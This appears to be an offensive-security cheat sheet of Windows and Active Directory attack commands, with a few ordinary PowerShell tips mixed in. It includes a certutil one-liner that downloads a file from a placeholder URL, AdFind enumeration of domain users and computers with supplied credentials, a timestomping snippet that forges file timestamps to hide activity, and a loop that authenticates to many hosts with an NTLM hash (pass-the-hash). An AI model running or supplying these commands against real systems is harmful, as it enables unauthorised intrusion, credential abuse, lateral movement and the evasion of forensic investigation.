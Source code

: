 ### Certutil

https://gist.github.com/subTee/7937a8ef07409715f15b84781e180c46
    
File download 
```
    certutil -urlcache -split -f http://example.com/file 
```

### Active Directory Enumeration

#### Adfind

www.joeware.net/freetools/tools/adfind/
```
    AdFind.exe -u account@domain.com -up password -h 10.4.128.40:389 -b dc=domain,dc=com -f "objectcategory=computer" > domain_computers.txt

    AdFind.exe -u account@domain.com -up password -h 10.4.128.40:389 -b dc=domain,dc=com -f "objectcategory=computer" distinguishedName dNSHostName description whenchanged operatingSystem operatingSystemVersion > domain_computers_light.txt

    AdFind.exe -u account@domain.com -up pass -h 10.4.128.40:389 -b dc=domain,dc=com -f "objectcategory=user" samaccountname description pwdlastset orclcommonattribute > domain_users_light.txt
```

### Powershell

List help for cmdlet: `Get-Help [cmdlet] -full`

List available properties and methods: `Get-Member`

For-each loop: `ForEach-Object { $_ }`

Search for string (like grep): `Select-String -path [file] -pattern [string]`

Timestomp
```
    $file=(gi c:\file.exe);
    $date='01/03/2009 12:12 pm';
    $file.LastWriteTime=$date;
    $file.LastAccessTime=$date;
    $file.CreationTime=$date
```

Show last system boot time
```
    Get-WmiObject win32_operatingsystem | select csname, @{LABEL='LastBootUpTime'; EXPRESSION={$_.ConverttoDateTime($_.lastbootuptime)}}
```

Wrap binary execution in a powershell loop
```
    powershell foreach ($target in (get-content c:\users\username\appdata\local\temp\hosts_da_loggedin_unique.txt)) { "[*] $Target:"; (c:\programdata\sd.exe ./administrator@$target -hashes aad3b435b51404eeaad3b435b51404ee:a4bab1c7d4bef62d4c22043ddbf1312c) }`
```
